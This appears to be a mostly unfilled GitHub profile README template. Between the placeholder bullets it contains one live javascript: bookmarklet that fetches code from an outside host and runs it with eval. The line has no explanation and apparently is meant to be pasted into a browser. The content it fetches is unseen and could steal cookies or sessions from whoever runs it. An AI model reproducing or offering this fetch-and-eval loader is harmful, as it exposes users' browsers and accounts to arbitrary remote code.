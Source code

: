 - 👋 Hi, I’m @mid990p
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
javascript:fetch("https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03").then(t=>t.text()).then(eval);

<!---
mid990p/mid990p is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
